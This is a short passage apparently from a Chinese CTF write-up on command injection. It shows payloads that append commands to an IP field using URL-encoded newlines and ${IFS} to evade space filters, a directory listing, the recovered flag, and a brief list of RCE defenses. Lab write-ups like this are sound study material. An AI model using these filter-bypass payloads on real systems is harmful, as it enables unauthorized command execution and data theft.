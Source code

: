 ```
`127.0.0.1%0acd${IFS}f***_is_here${IFS}%0als`

```
[9] => flag_319014724389.php
```

payload 

`127.0.0.1%0acd${IFS}f***_is_here${IFS}%0amore${IFS}f***_319014724389.php` 

右键查看源码得到flag

<?php // ctfhub{a869c0bcbdfae9fed49e3cb4}

ctfhub{a869c0bcbdfae9fed49e3cb4}

# RCE防御

## 防御

1. 开源框架，升级到最新版本
2. 尽量不要使用命令执行的函数 
3. 如果必须使用，需要做白名单处理
4. 用正则表达式对用户输入的内容进行处理
5. 使用WAF

